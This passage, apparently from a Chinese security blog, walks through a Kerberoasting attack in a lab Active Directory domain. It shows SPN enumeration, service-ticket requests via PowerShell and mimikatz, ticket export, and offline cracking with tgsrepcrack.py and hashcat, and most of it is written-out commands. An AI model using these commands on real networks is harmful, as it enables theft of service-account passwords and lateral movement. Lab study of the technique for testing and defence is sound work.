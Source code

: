   
接下来再通过手工的方法重现一次  
  
```
powershell setspn -T 0day.org -q */*
powershell Add-Type -AssemblyName System.IdentityModel
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7wptPicibjC1V2N0EX8QoalzPKgpBsatHzDrD8eS6NWaXMRIn53ubhTcQ/640?wx_fmt=png&from=appmsg "")  
  
  
再尝试了一下powershell的方法，还是不行，那就用mimikatz吧。。  
  
  
mimikatz kerberos::ask /target:MSSQLSvc/Srv-DB-0day.0day.org:1433  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7wOda5ibw7y1ozJzg0ufCfAQzF3Dle02oXUhVb7dBoMbVATBoDbsB1aQ/640?wx_fmt=png&from=appmsg "")  
  
  
成功后klist一下  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7eV0utBUw1mtP6ydrCJVUv98nQVHZQRwzqqQQRqOwibp1aiakR1hsnF5g/640?wx_fmt=png&from=appmsg "")  
  
  
出现了一个RC4的！可能可以利用。  
  
  
上述无论是工具完成还是手工完成，下一步都应该是导出票据文件！（如果利用破解klist文件来破解的话）  
  
  
mimikatz kerberos::list /export  
  
  
然后就是破解啦！破解有两种方法。  
  
1. 破解Hash值  
1. 破解klist文件，也就是.kirbi文件  
```
文件票据：python tgsrepcrack.py pass.txt "xx.kirbi"
HASH密文：hashcat -m 13100 hash.txt pass.txt --force
```  
  
先示范第二种方法！**破解klist文件**  
  
  
导出后下载到本地桌面即可。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7zPRpumFq1r9gicicxOsrtRpkKjV7ZMWsWxLBP5b8PsqvH5yviayU8hpyg/640?wx_fmt=png&from=appmsg "")  
  
  
破解的时候需要用到kerberoast工具包  
  
  
python tgsrepcrack.py pass.txt F:\内网安全\横向移动\ptt票据攻击\kerberoast-master\1-40a00000-pc-jack-0day$@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU72M63rR9PfbZ2VOQxH7wWrQEFjZmVPINVibiaBXCnPZrHI3vODcKl5VTg/640?wx_fmt=png&from=appmsg "")  
  